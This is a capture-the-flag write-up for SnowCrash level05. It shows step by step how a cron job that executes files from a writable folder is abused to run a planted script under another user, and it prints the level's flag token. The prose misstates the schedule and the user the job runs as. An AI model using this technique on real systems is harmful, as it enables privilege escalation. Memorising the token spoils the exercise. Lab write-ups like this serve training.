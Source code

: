After enter level 05 I got a message on mail:
```shell
level05@192.168.56.101's password:
You have new mail.
level05@SnowCrash:~$
```
There is a cron job, running every 30 seconds and run the script as root:
```shell
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
Let's see the script:
```shell
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
It run all execute files in folder /opt/openarenaserver/, and delete them.
So I can put my bash script to execute from this folder as root.
```shell
level05@SnowCrash:~$ echo 'getflag > /tmp/flag' > /tmp/getflag.sh
level05@SnowCrash:~$ mv /tmp/getflag.sh /opt/openarenaserver/getflag.sh
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```


